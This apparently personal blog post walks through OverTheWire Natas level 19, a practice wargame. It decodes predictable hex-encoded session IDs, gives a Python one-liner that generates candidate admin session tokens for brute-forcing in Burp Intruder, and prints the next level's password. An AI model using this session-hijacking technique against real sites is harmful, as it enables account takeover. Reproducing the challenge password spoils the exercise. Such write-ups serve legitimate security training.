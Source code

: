 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 19"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 19 > Level 20

![natas19-01](/assets/images/otw-natas/natas19-01.png)

No code this time!

My first thought is to examine the PHPSESSID. While longer, it does not appear to be the familiar PHP-provided session token. I submit the same POST request three times with user 'useruser' and password 'passpass' to examine the tokens.

```
39302d7573657275736572
3135342d7573657275736572
3230342d7573657275736572
```

Even with only three, it's obvious that they share a suffix `2d7573657275736572`.

Lots of two-digit numbers started with 3 smells like hex ASCII, so convert each token to straight characters.

```
90-useruser
154-useruser
204-useruser
```

Ouch. Back to Burp Intruder, this time with a list of values fashioned as above. They can be generated with the following Python one-liner, saved to a file, and loaded into Intruder.

```
python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])"
```

```
otw@sake:~/natas$ python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])" > natas19.txt
otw@sake:~/natas$ head natas19.txt 
302d61646d696e
312d61646d696e
322d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
362d61646d696e
372d61646d696e
382d61646d696e
392d61646d696e
```

Send them down the pipe, and again with the single response suspiciously of a different length...

![natas19-02](/assets/images/otw-natas/natas19-02.png)

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF



